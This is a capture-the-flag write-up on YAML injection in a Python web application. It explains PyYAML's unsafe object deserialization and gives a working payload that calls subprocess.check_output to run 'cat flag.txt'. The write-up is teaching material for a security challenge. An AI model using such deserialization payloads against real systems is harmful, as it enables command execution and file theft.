



# 🛡️ Challenge Writeup — YAML Injection

> **Author:** s0ufm3l
---

## 📜 Challenge Description

We are given a python web application with the following important part:



a textarea asking for YAML configs format, 
if we submit a simple YAML code:
```yaml
name: "John Doe"
age: 30
is_active: true
address:
  street: "123 Main St"
  city: "Anytown"
  zip: "12345"
```
the application process it and renders it to the user, very basic.



### 🧠 Exploitation Strategy

If we check whether the web application is vulnerable to YAML injection, we get this:



Using PyYAML's object deserialization, we can:

    Execute arbitrary Python functions

    Run system commands

    Read files (like flag.txt)

One common primitive is using:

```less
!!python/object/apply:some_function [arguments]
```
Which tells PyYAML to call a Python function with the given arguments.

### 🚀 Exploit Payload

!!python/object/apply:subprocess.check_output [["cat", "flag.txt"]]

How it works:

    !!python/object/apply:subprocess.check_output → calls the subprocess.check_output function.

    [["cat", "flag.txt"]] → passes the command cat flag.txt as a list of arguments.

    This reads the contents of flag.txt and returns it.